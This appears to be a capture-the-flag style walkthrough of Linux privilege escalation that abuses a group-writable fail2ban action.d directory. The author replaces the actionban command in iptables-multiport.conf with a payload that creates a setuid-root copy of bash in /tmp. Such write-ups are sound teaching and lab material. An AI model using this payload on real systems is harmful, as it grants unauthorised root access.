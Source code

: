 ```bash
ls -al /etc/fail2ban/

# output
total 72
drwxr-xr-x  6 root root      4096 Dec  3  2020 .
drwxr-xr-x 76 root root      4096 Jan 21  2021 ..
drwxrwxr-x  2 root fail2ban  4096 Dec  3  2020 action.d # <--- i have access to these
-rw-r--r--  1 root root      2334 Jan 18  2018 fail2ban.conf
drwxr-xr-x  2 root root      4096 Sep 23  2018 fail2ban.d
drwxr-xr-x  3 root root      4096 Dec  3  2020 filter.d
-rw-r--r--  1 root root     22910 Nov 19  2020 jail.conf
drwxr-xr-x  2 root root      4096 Dec  3  2020 jail.d
-rw-r--r--  1 root root       645 Jan 18  2018 paths-arch.conf
-rw-r--r--  1 root root      2827 Jan 18  2018 paths-common.conf
-rw-r--r--  1 root root       573 Jan 18  2018 paths-debian.conf
-rw-r--r--  1 root root       738 Jan 18  2018 paths-opensuse.conf
-rw-r--r--  1 root root        87 Dec  3  2020 README.fox # <--- what is this?
```

```bash
cd /etc/fail2ban/
cat README.fox

# output
Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!
```

```bash
cat jail.conf

# output
...snipped...
# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
...snipped...
```

```bash
vim iptables-multiport.conf

# output
...snipped...
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
...snipped...
```

Replace the setting above with the payload below.
```bash
...snipped...
actionban = cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
...snipped...
```
